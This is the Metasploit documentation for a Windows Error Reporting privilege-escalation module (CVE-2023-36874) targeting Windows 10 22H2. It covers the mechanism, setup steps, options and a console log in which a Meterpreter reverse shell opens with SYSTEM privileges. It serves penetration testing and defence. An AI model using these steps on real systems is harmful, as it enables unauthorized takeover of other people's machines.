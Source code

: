 ## Vulnerable Application
This module works only on Windows 10x64 22H2

### Introduction

This module takes advantage of a bug in the way Windows error reporting opens the report
parser.  If you open a report, Windows uses a relative path to locate the rendering program.
By creating a specific alternate directory structure, we can coerce Windows into opening an
arbitrary executable as SYSTEM.
If the current user is a local admin, the system will attempt impersonation and the exploit will
fail.  Because the payload is added to a directory this module creates, in the event of successful
exploitation, the user will need to delete the payload and the directories containing the payload
manually.

This module will attempt to delete the payload it uploads and the directory structure.

## Installation Instructions
1. Install Windows 10x64 22H2
1. Create a standard user


## Verification Steps

1. Create a session on the target system under the context of a non local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/win_error_cve_2023_36874`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.


## Options
1. `EXPLOIT_NAME` The filename to use for the exploit binary (%RAND%.exe by default)
1. `REPORT_DIR` The Error Directory to use (%RAND% by default).
1. `REPORT_NAME` The Error report name (%RAND% by default).
1. `SHADOW_DRIVE` Directory to place in the home drive for pivot (%TEMP% by default).
1. `EXECUTE_DELAY` The number of seconds to delay between file upload and exploit launch.  Default is 3.

## Scenarios

### Windows 10.0.19045.2006 x64 (Windows 10x64 22H2)

```
msf6 exploit(windows/local/win_error_cve_2023_36874) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] OS version: Windows 10+ Build 19045
[+] The target appears to be vulnerable.
[*] Shadow Path = C:\NpIWBsCJozK
[*] Attempting to PrivEsc on DESKTOP-V413087 via session ID: 1
[*] C:\ProgramData
[*] Creating C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] Creating directory C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing Report to C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating directory C:\NpIWBsCJozK
[*] C:\NpIWBsCJozK created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\
[*] C:\NpIWBsCJozK\ProgramData\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing bad Report to C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating C:\NpIWBsCJozK\system32
[*] Creating directory C:\NpIWBsCJozK\system32
[*] C:\NpIWBsCJozK\system32 created
[*] Writing payload to C:\NpIWBsCJozK\system32\wermgr.exe
[*] shadow_path = NpIWBsCJozK
[*] Exploit uploaded on DESKTOP-V413087 to C:\NpIWBsCJozK\fShpLfYh.exe
[*] Sending stage (200774 bytes) to 10.5.132.118
[+] Deleted C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] 
[+] Deleted C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] Meterpreter session 2 opened (10.5.135.201:4444 -> 10.5.132.118:62415) at 2023-09-19 15:43:02 -0500
[-] Failed to delete C:\NpIWBsCJozK\system32: stdapi_fs_delete_dir: Operation failed: The directory is not empty.

meterpreter > sysinfo
Computer        : DESKTOP-V413087
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit

```
